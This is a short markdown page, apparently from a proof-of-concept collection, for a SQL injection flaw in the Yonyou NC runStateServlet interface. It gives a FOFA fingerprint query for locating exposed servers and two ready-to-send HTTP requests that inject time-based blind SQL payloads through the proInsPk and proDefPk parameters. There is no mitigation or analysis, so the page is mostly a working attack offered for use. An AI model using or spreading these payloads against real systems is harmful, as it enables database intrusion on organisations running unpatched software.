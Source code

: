 ## 用友NC-runStateServlet接口存在SQL注入漏洞


## fofa
```
icon_hash="1085941792"
```


## poc
```
GET /portal/pt/servlet/runStateServlet/doPost?pageId=login&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

```


## poc2
```
GET /portal/pt/servlet/runStateServlet/doPost?pageId=login&proDefPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

![image](../../images/fe20943d-db7b-4a6e-85c1-b259e410f0ac.png)
